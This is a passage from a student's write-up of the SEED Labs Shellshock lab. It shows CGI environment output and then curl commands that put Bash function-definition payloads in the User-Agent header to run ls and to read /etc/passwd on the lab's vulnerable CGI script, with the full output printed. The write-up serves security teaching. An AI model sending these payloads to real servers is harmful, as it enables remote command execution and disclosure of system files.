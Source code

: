 ```bash
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=51280
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
* Connection #0 to host www.seedlab-shellshock.com left intact
[03/12/22]seed@VM:~/.../ssi$ 
```

### Task 3

In this task, we were asked to perform different attacks to gain knowledge of our victim and play a bit with his filesystem. 

On the first attack, our goal is to get the server to return a list of files in its folder.

```bash
[03/12/22]seed@VM:~/.../ssi$ curl -H "User-Agent: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/ls -l" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
total 8
-rwxr-xr-x 1 root root 130 Dec  5  2020 getenv.cgi
-rwxr-xr-x 1 root root  85 Dec  5  2020 vul.cgi
[03/12/22]seed@VM:~/.../ssi$ 
```

#### Task 3.A

Then, return the content of the `/etc/passwd` file, which contains, for instance, information of the users present in the system.

```
[03/12/22]seed@VM:~/.../ssi$ curl -H "User-Agent: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```